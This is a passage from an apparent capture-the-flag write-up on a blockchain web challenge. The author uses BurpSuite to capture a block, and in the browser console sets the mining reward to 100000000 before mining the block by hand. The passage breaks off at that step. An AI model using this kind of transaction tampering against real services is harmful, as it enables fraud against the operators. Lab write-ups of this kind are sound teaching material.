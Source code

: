 Plan is simple, we're going to transfer some amount of money, and manually using BurpSuite Repeater get the JSON block data using the `getblock`.

That's the block we're going to mine manually.

![Getblock](/img/blockchain-challenge/getblock.png){:class="img-responsive center-block"}

{% highlight text %}
{"date": 1527622270.298562, "difficulty": 4, "hash": "", "nonce": 0, "previusHash": "000021492e9b9b756122db048705babd4cb3e3098a6afb1d33b9d842864d1939", "transactions": [["g", "b", 10], ["minedReward", "g", 1]]}
{% endhighlight %}

Firstly I wanted to do it in Python but as I was unsure that these values would parse in the same way as in JS, i decided to do it in browser console. Simply copy/paste the instructions code the source that was used to mine.

{% highlight javascript %}
newBlock = JSON.parse('{"date": 1527622270.298562, "difficulty": 4, "hash": "", "nonce": 0, "previusHash": "000021492e9b9b756122db048705babd4cb3e3098a6afb1d33b9d842864d1939", "transactions": [["g", "b", 10], ["minedReward", "g", 1]]}');
Object { date: 1527622270.298562, difficulty: 4, hash: "", nonce: 0, previusHash: "000021492e9b9b756122db048705babd4cb3e3098a6afb1d33b9d842864d1939", transactions: (2) […] }

var hashed = "";
var difficulty = "";
for(let i=0; i<newBlock.difficulty; i++) {
    difficulty += "0";
}
"0000"

newBlock.transactions
(2) […]
​
0: Array(3) [ "g", "b", 10 ]
​
1: Array(3) [ "minedReward", "g", 1 ]
​
length: 2
​
__proto__: Array []

newBlock.transactions[1][2] = 100000000